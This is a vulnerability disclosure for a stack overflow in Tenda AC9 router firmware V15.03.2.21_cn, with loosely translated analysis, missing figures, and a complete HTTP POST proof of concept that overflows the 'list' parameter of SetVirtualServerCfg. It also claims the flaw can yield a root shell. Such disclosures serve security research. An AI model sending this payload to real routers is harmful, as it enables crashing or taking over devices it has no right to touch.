

# Tenda AC9 V15.03.2.21_cn stack overflow

## Overview

- Manufacturer's website information：https://www.tenda.com.cn/profile/contact.html
- Firmware download address ： https://www.tenda.com.cn/download/default.html

## 1. Affected version


Figure 1 shows the latest firmware Ba of the router

## Vulnerability details



First, put the content obtained from the list parameter into the V5 parameter, and then bring the V5 parameter into the sub_ 6e3bc function


At this time, the corresponding parameter is A2


First, we will judge whether the A2 parameter is greater than 4
If it is greater than 4, the content of A2 is transmitted to V17, and then the matched content is directly formatted into the stack through sscanf. The nullable parameters are IP, port, port and 1 respectively. There are stack overflow vulnerabilities

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware V15.03.2.21_cn
2. Attack with the following POC attacks

```
POST /goform/SetVirtualServerCfg HTTP/1.1
Host: 192.168.11.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 1025
Origin: http://192.168.11.1
Connection: close
Referer: http://192.168.11.1/virtual_server.html?random=0.8753049569086946&
Cookie: password=7c90ed4e4d4bf1e300aa08103057ccbcvls1qw

list=192.168.11.4,21aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaaeaaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaacoaacpaacqaacraacsaactaacuaacvaacwaacxaacyaaczaadbaadcaaddaadeaadfaadgaadhaadiaadjaadkaadlaadmaadnaadoaadpaadqaadraadsaadtaaduaadvaadwaadxaadyaadzaaebaaecaaedaaeeaaefaaegaaehaaeiaaejaaekaaelaaemaaenaaeoaaepaaeqaaeraaesaaetaaeuaaevaaewaaexaaeyaae,23,1
```

The reproduction results are as follows:


Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shel

